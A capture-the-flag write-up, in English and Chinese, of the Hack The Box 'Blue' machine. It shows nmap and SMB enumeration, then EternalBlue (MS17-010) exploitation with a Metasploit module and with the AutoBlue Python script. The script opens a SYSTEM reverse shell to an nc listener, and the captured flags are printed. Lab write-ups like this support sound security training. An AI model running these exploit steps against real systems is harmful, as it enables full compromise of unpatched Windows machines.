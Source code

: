 ```yaml
---
title : "Hack The Box - Blue"
author: fsociety
date: 2024-04-24 11:18:00 +0800
categories: [Hackthebox, Hackthebox-Windows, Hackthebox-Easy]
tags: [EternalBlue,ms17-010,CVE-2017-0143,永恒之蓝漏洞]
---
```


![image](../assets/post_img/Snipaste_2024-04-24_15-23-41.png)

**Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.**

```
Blue，展示了 EternalBlue 漏洞的严重性
自公开泄露以来
已被用于多次大规模勒索软件和加密货币挖矿攻击
```

---

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```console
nmap -sC -sV -Pn 10.129.58.31 -vv > nmap_tcp_scan.conf

PORT      STATE SERVICE      REASON  VERSION
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-04-24T08:19:36+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-04-24T07:19:36
|_  start_date: 2024-04-24T06:59:42
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 64928/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 24997/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 60696/udp): CLEAN (Failed to receive data)
|   Check 4 (port 38001/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: -20m28s, deviation: 34m35s, median: -30s
```

### <span style="color:lightgreen">SMB - TCP 445</span>

```console
smbmap -H 10.129.58.31 -u "0xdf -p "0xdf
[+] Guest session   	IP: 10.129.58.31:445	Name: 10.129.58.31                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY

```

Share Users 可读

```console
smbclient //10.129.58.31/Share
Password for [WORKGROUP\qax]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 14 14:48:44 2017
  ..                                  D        0  Fri Jul 14 14:48:44 2017

		4692735 blocks of size 4096. 656872 blocks available

smb: \>

smbclient //10.129.58.31/Users
Password for [WORKGROUP\qax]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Jul 21 07:56:23 2017
  ..                                 DR        0  Fri Jul 21 07:56:23 2017
  Default                           DHR        0  Tue Jul 14 08:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 05:54:24 2009
  Public                             DR        0  Tue Apr 12 08:51:29 2011
```

nothing

### <span style="color:lightgreen">Vulns</span>

检查已知漏洞
```console
nmap -p 445 -script vuln 10.129.58.31
Starting Nmap 7.93 ( https://nmap.org ) at 2024-04-24 08:35 BST
Nmap scan report for 10.129.58.31
Host is up (0.0022s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
```

ms17-010
CVE-2017-0143
永恒之蓝漏洞

WannaCry

## <span style="color:lightblue">Shell as System</span>

EternalBlue是在Windows的SMB服务处理SMB v1请求时发生的漏洞

这个漏洞导致攻击者在目标系统上可以执行任意代码

### <span style="color:lightgreen">Metasploit</span>

```bash
sudo msfconsole -q

windows/smb/ms17_010_eternalblue

set rhosts 10.129.58.31
set lhost 10.10.14.16
exploit
```


```bash
(Meterpreter 1)(C:\Windows\system32) > getuid 
Server username: NT AUTHORITY\SYSTEM
```

```
c:\Users\haris\Desktop>type user.txt
type user.txt
e6ac0ed91c80d1622f0bc6d8adcc3c8d

c:\Users\Administrator\Desktop>type root.txt
type root.txt
384723cece064b898599144837cc390f
```

### <span style="color:lightgreen">Python Script</span>

```console
https://github.com/3ndG4me/AutoBlue-MS17-010

https://sparshjazz.medium.com/hack-the-box-blue-e9c0b0e4b33d

参考博客搭建环境

python2.7 ../eternalblue_exploit7.py 10.129.169.176 sc_x64.bin

sudo nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.169.176.
Ncat: Connection from 10.129.169.176:49158.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

![image](../assets/post_img/Snipaste_2024-04-24_15-50-04.png)